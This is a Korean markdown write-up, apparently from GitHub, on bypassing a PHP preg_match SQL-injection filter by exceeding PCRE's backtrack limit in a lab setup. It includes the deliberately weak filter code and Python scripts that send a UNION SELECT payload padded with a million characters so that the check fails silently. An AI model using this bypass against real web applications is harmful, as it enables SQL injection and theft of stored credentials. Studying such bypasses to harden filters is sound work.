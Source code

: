 # PCRE Bypass

[PCRE](#https://ko.wikipedia.org/wiki/%ED%8E%84_%ED%98%B8%ED%99%98_%EC%A0%95%EA%B7%9C_%ED%91%9C%ED%98%84%EC%8B%9D)(Perl Compatible Regular Expressions)의 검사 수 제한(catastrophic backtracking)을 이용하여 우회

# **INDEX**

**1. [환경 구성](#환경-구성)**

**2. [preg_match](#preg_match)**

# **환경 구성**

| Type          | Version                   |
| :---          | :---                      |
| OS            | Ubuntu 20.04.3 LTS        |
| Architecture  | x86-64                    |
| IP            | 192.168.0.58              |
| apache2       | 2.4.41-4ubuntu3.10        |
| php           | 7.4.3                     |

apache와 php를 사용하기 위해 관련 패키지를 설치하자.

```sh
root@ubuntu:~# apt -y install apache2 php
```

preg_match를 이용하여 SQLi를 방어하는 코드를 적용하였다.

```php
<?php
if(preg_match('/UNION.+?SELECT/i', $_POST['sql'])) die('SQL Injection');
else echo "pass";
?>
```

pcre의 최대 검사 수를 확인해보자.

```sh
user@user:/var/www/html$ php -r "var_dump(ini_get('pcre.backtrack_limit'));"
string(7) "1000000"
```

# **preg_match**

다음의 sql문을 전달하면 preg_match에 의해서 if문으로 들어간다.

```python
import requests

url = 'http://192.168.108.174/index.php'
data = {'sql': 'UNION SELECT id,pw FROM USER -- '}
res = requests.post(url=url, data=data)
print(res.text)
```

하지만 backtrack_limit 보다 큰 데이터를 전송하면 preg_match의 결과가 false(0)으로 반환되어 else문으로 우회할 수 있다.

```python
import requests

url = 'http://192.168.108.174/index.php'
data = {'sql': 'UNION /*'+'a'*1000000+'*/ SELECT id,pw FROM USER -- '}
res = requests.post(url=url, data=data)
print(res.text)
```